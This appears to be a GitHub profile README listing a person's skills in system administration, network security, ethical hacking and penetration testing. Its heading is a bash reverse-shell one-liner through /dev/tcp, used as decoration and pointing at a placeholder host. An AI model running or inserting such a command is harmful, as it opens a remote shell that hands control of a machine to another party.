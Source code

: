 <h1 align="center"> /bin/bash -i >& /dev/tcp/Ciscoanass/444 0>&1 </h1>


<p align="left">
  
  <img src="https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExeDgzMmtzamtpeTB6cmF3aHZ2NmNyM3JyYzlhcG5uaHRjd3JuNTJ4cyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/oYQ9HRm5Mo7VXeMNVR/giphy.gif" alt="image" width="450" align="right">
  </p>

   &lt;configuration&gt;

🖥️ Sys Administration

🛡️ Network Security

📶 Sys&Network Monitoring

👾 Ethical Hacking

💥 Penetration Testing

🕵️ Vulnerability Analysis

   &lt;/configuration&gt;


<h1> Skills :</h1>


<p align="center">
  <a href="https://skillicons.dev">
    <img src="https://skillicons.dev/icons?i=git,github,grafana,prometheus,ansible,nginx,bash,linux,redhat,ubuntu,debian,kali,powershell,windows,mysql,py,js,html,css,wordpress,vscode&perline=12  " />
  </a>
</p>
